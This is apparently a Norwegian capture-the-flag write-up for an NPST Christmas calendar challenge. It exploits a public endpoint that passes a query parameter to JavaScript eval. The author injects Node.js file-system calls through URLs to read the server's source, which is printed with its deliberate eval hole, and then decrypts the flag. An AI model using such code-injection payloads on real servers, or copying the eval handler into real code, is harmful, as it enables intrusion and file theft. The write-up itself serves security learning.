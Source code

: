 # Arbitrær kode

## Oppgaven

    Se dagsbriefen: https://kalender.npst.no/12

<p><strong>Evaluering av trusler</strong></p><p>NPST har oppdaget et endepunkt som er tilgjengelig på SPST sin offentlige nettside. Det vites på dette tidspunktet ikke om dette endepunktet er tilgjengelig ved en feiltagelse, eller om det er meningen at dette skal brukes av deres agenter. En av NPSTs teknikere har påpekt at det ser ut til å være mulig å kjøre arbitrær kode via endepunktet. Det er ønskelig at en alvebetjent undersøker dette endepunktet og rapporterer eventuelle flagg via intranettet.</p><p>Url: <code>https://api.spst.no/eval?eval=`&#x3C;pre>${getFlag()}&#x3C;/pre>`</code></p><p><strong>Jule NISSEN er blitt syk</strong></p><p>Jule NISSEN er utilgjengelig de neste dagene grunnet sykdom. Det mistenkes at sykdommen er influensa ettersom Jule NISSEN har sprøyteskrekk og ikke tok vaksinen sammen med resten av NPST. Ledelsen anbefaler alle alvebetjenter å praktisere god hygiene og benytte seg av antibak for å unngå videre smitte.</p><p><strong>Julevurdering</strong></p><p>Med bakgrunn i Jule NISSENS sykdom blir julevurderingen nedgradert. Det er nå <em>mulig</em> at det blir en GOD JUL.</p>

---

## Løsningen

<p>Besøker vi <p><code>https://api.spst.no/eval?eval=`&#x3C;pre>${getFlag()}&#x3C;/pre>`</code></p> får vi outputen</p>

`e5a8aadb885cd0db6c98140745daa3acf2d06edc17b08f1aff6daaca93017db9dc8d7ce7579214a92ca103129d0efcdd`

Her sier oppgaven at serveren kjører arbitrær kode, og `eval` er en funksjon i flere språk som kjører kode direkte. Dette kan vi utnytte til å sjekke litt rundt på serveren!

Vi er ganske sikre på at serveren kjører på noe `node`, så vi sjekker ut API-ene for filer til `node` på [https://nodejs.org/api/fs.html](https://nodejs.org/api/fs.html)

Med API-et `fs` kan vi kalle på filsystemet, og lese ut både mappeinnhold og filinnhold. Vi sjekker ut innholdet i mappen med denne kommandoen først:

```javascript
require("fs").readDirSync("./");
```

<p>
<code>https://api.spst.no/eval?eval=`&#x3C;pre>${require("fs").readdirSync("./")}&#x3C;/pre>`</code>
</p>

Outputen til dette endepunktet er:

```plaintext
eval.js
```

Mappen inneholder altså bare denne ene Javascript-filen. Vi sjekker ut innholdet i denne med kommandoen

```javascript
require("fs").readFileSync("./eval.js");
```

<p>
<code>https://api.spst.no/eval?eval=`&#x3C;pre>${require("fs").readFileSync("./eval.js")}&#x3C;/pre>`</code>
</p>

Vi får da ut innholdet til filen:

```javascript
const crypto = require("crypto");

function getSecretPasswordNumber(n) {
    return Math.PI.toFixed(48)
        .toString()
        .split(".")[1]
        .slice(n, n + 2);
}

function getPassword(date) {
    const passwords = {
        "06.12.19": "passord-" + getSecretPasswordNumber(3),
        "07.12.19": "passord-" + getSecretPasswordNumber(5),
        "08.12.19": "passord-" + getSecretPasswordNumber(8),
        "09.12.19": "passord-" + getSecretPasswordNumber(13),
        "10.12.19": "passord-" + getSecretPasswordNumber(21)
    };
    // 06.12.19: vi har ikke flere passord etter 10. Burde vurdere alternative
    // løsninger.
    return passwords[date] || `fant ikke passord for ${date}`;
}

function formatSalt(salt) {
    return salt.toLowerCase();
}

function encrypt(input) {
    // Bruk `decrypt` for å dekryptere

    const algorithm = "aes-192-cbc";
    // 06.12.19: husk å oppdatere denne hver dag!!!
    // 09.12.19: dette var sykt slitsomt. kan vi finne en bedre løsning?
    // 11.12.19: Krypteres permanent med dagens passord nå.
    // Denne funksjonen trengs vel ikke lenger?
    const password = getPassword("10.12.19");

    // 09.12.19: pepper er ikke et salt. Når vi på sikt krypterer utenfor serveren
    // burde vi oppdatere dette til noe mer vitenskapelig korrekt.
    // Natriumhydrogensulfat?
    // 11.12.19: Oppdatert med den kjemiske formelen ;)
    const key = crypto.scryptSync(password, formatSalt("pepper"), 24);

    const iv = Buffer.alloc(16, 0);
    const cipher = crypto.createCipheriv(algorithm, key, iv);

    let encrypted = cipher.update(input, "utf8", "hex");
    encrypted += cipher.final("hex");

    return encrypted;
}

function decrypt(password, salt, input) {
    const algorithm = "aes-192-cbc";

    const key = crypto.scryptSync(password, formatSalt(salt), 24);

    const iv = Buffer.alloc(16, 0);
    const decipher = crypto.createDecipheriv(algorithm, key, iv);

    let decrypted = decipher.update(input, "hex", "utf8");
    decrypted += decipher.final("utf8");

    return decrypted;
}

function getFlag() {
    // Det er sikkert smartere å kryptere flagget først, og bare skrive inn det
    // krypterte resultatet her, enn å kryptere på serveren hver gang.
    // 11.12.19: Kryptert flagget nå. Vi kan sikkert slette encrypt-funksjonen?
    return "e5a8aadb885cd0db6c98140745daa3acf2d06edc17b08f1aff6daaca93017db9dc8d7ce7579214a92ca103129d0efcdd";
}

exports.handler = function main(event, context, callback) {
    let result = "";

    console.log(event.queryStringParameters.eval);

    // 😶
    delete process.env.AWS_SECRET_ACCESS_KEY;
    delete process.env.AWS_ACCESS_KEY_ID;
    delete process.env.AWS_SESSION_TOKEN;

    try {
        result = `${eval(event.queryStringParameters.eval)}`;
    } catch (e) {
        console.log(e);
        // 06.12.19: La til en god og informativ feilmelding.
        result = "Dette burde ikke skje...";
    }

    callback(null, {
        statusCode: 200,
        headers: {
            "Content-Type": "text/html; charset=utf-8"
        },
        body: result
    });
};
```

Etter å ha lest og forstått denne filen sitter vi igjen med følgende informasjon

- Outputen vi får ved å kalle på `getFlag` er den krypterte utgaven av dagens flagg
- `getPassword` henter ut dagens passord fra funksjonen `getSecretPasswordNumber`
- Det ser ut som nummerene i inputen til `getSecretPasswordNumber` er basert på Fibonacci-sekvensen `3 5 8 13 21 ...`
- Det kan se ut som saltet til krypteringsfunksjonen er oppdatert til å være statisk, og til å være den kjemiske formelen for "Natriumhydrogensulfat", `NaHSO4`, som lowerCases i funksjonen `formatSalt`
- `encrypt`-funksjonen brukes ikke lenger, men siden den fortsatt ligger i kildekoden kan vi se hvordan hashen blir generert
- `decrypt` brukes for å dekryptere hashen
- `getFlag` ser ut til å bli oppdatert manuelt hver dag med en hash generert utenfor scriptet

Vi må finne verdiene til argumentene vi trenger å sende inn til `decrypt`-funksjonen, altså `password`, `salt` og `input`

Passordet for 11. desember får vi hvis vi kombinerer `passord-` og output for `getSecretPasswordNumber(34)`, hvor `34` er neste tall i Fibonacci-sekvensen.

Dette gir oss passordet `passord-61`

Saltet blir enkelt og greit `NAHSO4` lowercaset: `nahso4`

Nå har vi alle input vi trenger, og kan kalle på `decrypt`-funksjonen med riktig input:

```javascript
decrypt("passord-61", "nahso4", "e5a8aadb885cd0db6c98140745daa3acf2d06edc17b08f1aff6daaca93017db9dc8d7ce7579214a92ca103129d0efcdd");
```

Vi kaller på serveren med denne konstruerte URL-en:

<p>
<code>https://api.spst.no/eval?eval=`&#x3C;pre>${decrypt("passord-61", "nahso4", "e5a8aadb885cd0db6c98140745daa3acf2d06edc17b08f1aff6daaca93017db9dc8d7ce7579214a92ca103129d0efcdd")}&#x3C;/pre>`</code>
</p>

Som gir outputen:

`PST{24e592de8b20fe09938916d79b08854e}`

Da har vi funnet dagens flagg!

```javascript
Flagg: PST{24e592de8b20fe09938916d79b08854e}
```
